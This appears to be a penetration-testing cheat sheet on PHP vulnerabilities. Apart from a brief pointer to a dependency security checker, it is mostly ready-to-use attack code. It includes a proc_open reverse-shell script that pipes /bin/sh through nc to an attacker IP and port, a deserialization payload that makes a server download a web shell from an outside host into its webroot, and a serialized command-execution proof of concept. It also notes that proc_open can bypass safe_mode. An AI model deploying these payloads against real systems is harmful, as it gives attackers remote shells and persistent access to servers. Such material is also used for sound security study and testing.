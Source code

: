 ```yaml
---
description: A list of PHP tricks & vulnerabilities and their application.
---
```


# PHP Vulnerabilities

## Local PHP Security Checker

The Local PHP Security Checker is a command line tool that checks if your PHP application depends on PHP packages with known security vulnerabilities. It uses the [Security Advisories Database](https://github.com/FriendsOfPHP/security-advisories) behind the scenes.

> **Local PHP Security Checker:** https://github.com/fabpot/local-php-security-checker

## proc\_open() function

You can get a reverse shell from the `proc_open()` php function using the following script.

```php
<?php
set_time_limit (0);
$ip = '10.10.10.10';  // CHANGE THIS
$port = 4444;      // CHANGE THIS

// Spawn shell process
$descriptorspec = array(
0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
2 => array("file", "/tmp/error-output.txt", "a")   // stderr is a pipe that the child will write to
);

$cwd = "/tmp";
$env = array('some_option' => 'aeiou');

$process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
    fwrite($pipes[0], 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $ip $port >/tmp/f');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    $return_value = proc_close($process);
    echo "command returned $return_value\n";
}
?>
```

When PHP safe\_mode is enabled, you can bypass it using the `proc_open()` function.

> Reference: [disable\_functions bypass - PHP safe\_mode bypass via proc\_open() and custom environment Exploit](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable\_functions-open\_basedir-bypass/disable\_functions-bypass-php-safe\_mode-bypass-via-proc\_open-and-custom-environment-exploit)

## Deserialization

Use of the `save()` function on a class

```php
<?php
class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$payload = new AvatarInterface();
$payload->tmp = 'http://10.10.16.9:8000/cmd.php';
$payload->imgPath = '/var/www/html/cmd.php';
$payload = base64_encode(serialize($payload));
print($payload);
```

## **construct() & destruct() function code execution**

```php
<?php
namespace App\Service;
class Logger
{
    private $log_me;
    function __construct($log_me)
    {
        $this->log_me = $log_me;
    }
}
echo base64_encode(
    serialize(
        new Logger("echo 'hello from the other side' > /tmp/poc_unserialize")
    )
);
```
